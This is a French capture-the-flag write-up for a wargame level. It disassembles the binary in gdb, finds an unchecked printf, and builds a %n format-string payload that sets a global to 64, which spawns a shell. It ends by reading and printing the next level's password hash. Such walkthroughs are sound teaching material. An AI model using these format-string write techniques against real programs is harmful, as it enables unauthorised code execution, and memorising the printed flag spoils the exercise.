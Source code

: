 #level3

$./level3
test
test

Level3 attend un input et ensuite l'affiche.

Regardons un peu plus en détail.

$ gdb level3

> disas main

Dump of assembler code for function main:
0x0804851a <+0>: push %ebp
0x0804851b <+1>: mov %esp,%ebp
0x0804851d <+3>: and $0xfffffff0,%esp
0x08048520 <+6>: call 0x80484a4 <v>
0x08048525 <+11>: leave
0x08048526 <+12>: ret
End of assembler dump.

On voit qu'il appelle la fonction v.

Regardons v de plus près:

> disas v
> Dump of assembler code for function v:
> 0x080484a4 <+0>: push %ebp
> 0x080484a5 <+1>: mov %esp,%ebp
> 0x080484a7 <+3>: sub $0x218,%esp
> 0x080484ad <+9>: mov 0x8049860,%eax
> 0x080484b2 <+14>: mov %eax,0x8(%esp)
> 0x080484b6 <+18>: movl $0x200,0x4(%esp)
> 0x080484be <+26>: lea -0x208(%ebp),%eax
> 0x080484c4 <+32>: mov %eax,(%esp)
> 0x080484c7 <+35>: call 0x80483a0 <fgets@plt>
> 0x080484cc <+40>: lea -0x208(%ebp),%eax
> 0x080484d2 <+46>: mov %eax,(%esp)
> 0x080484d5 <+49>: call 0x8048390 <printf@plt>
> 0x080484da <+54>: mov 0x804988c,%eax
> 0x080484df <+59>: cmp $0x40,%eax
> 0x080484e2 <+62>: jne 0x8048518 <v+116>
> 0x080484e4 <+64>: mov 0x8049880,%eax
> 0x080484e9 <+69>: mov %eax,%edx
> 0x080484eb <+71>: mov $0x8048600,%eax
> 0x080484f0 <+76>: mov %edx,0xc(%esp)
> 0x080484f4 <+80>: movl $0xc,0x8(%esp)
> 0x080484fc <+88>: movl $0x1,0x4(%esp)
> 0x08048504 <+96>: mov %eax,(%esp)
> 0x08048507 <+99>: call 0x80483b0 <fwrite@plt>
> 0x0804850c <+104>: movl $0x804860d,(%esp)
> 0x08048513 <+111>: call 0x80483c0 <system@plt>
> 0x08048518 <+116>: leave
> 0x08048519 <+117>: ret
> End of assembler dump.

On voit que la fonction compare le contenu d'une variable à un 64 (0x40) avant d'executer la commande system.

Observons la variable comparée:

> x/s 0x804988c
> 0x804988c <m>: ""

On nt voit pas m dans la fonction.

Essayons de trouver m dans les globales:

> info variables

All defined variables:

Non-debugging symbols:
0x080485f8 _fp_hw
0x080485fc \_IO_stdin_used
0x08048734 **FRAME_END**
0x08049738 **CTOR_LIST**
0x08049738 **init_array_end
0x08049738 **init_array_start
0x0804973c **CTOR_END**
0x08049740 **DTOR_LIST**
0x08049744 **DTOR_END**
0x08049748 **JCR_END**
0x08049748 **JCR_LIST**
0x0804974c \_DYNAMIC
0x08049818 \_GLOBAL_OFFSET_TABLE_
0x0804983c **data_start
0x0804983c data_start
0x08049840 **dso_handle
0x08049860 stdin@@GLIBC_2.0
0x08049880 stdout@@GLIBC_2.0
0x08049884 completed.6159
0x08049888 dtor_idx.6161
0x0804988c m

m est donc une variable globale.

On doit reussir a initaliser m avec la valeur 64.

On voit qu'avant la comparaison, v appelle printf sans la securissé.

Donc on va profiter de ça.

Avec %x on va pouvoir remonter la stack et voir dans quelle adresse est écrit le buffer.

$ echo "AAAA %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520

Donc le buffer est écrit dans la 4eme case de la stack dans "41414141".

On doit changer cette adresse pour 0x0804988c l'adresse de m.

$ python -c 'print "\x8c\x98\x04\x08" + "%x %x %x %x %x"' | ./level3
�200 b7fd1ac0 b7ff37d0 804988c 25207825

On va utiliser %n qui va ecrire dans l'adresse le nombre de bytes écrits, 4 bytes dans le cas présent. Il en manque donc 60, on va les rajouter et raccourcir la commande au passage.

$ python -c 'print "\x8c\x98\x04\x08" + "A"\*60 + "%4$n"' | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!

$ (python -c 'print "\x8c\x98\x04\x08" + "A"\*60 + "%4$n"'; cat -) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
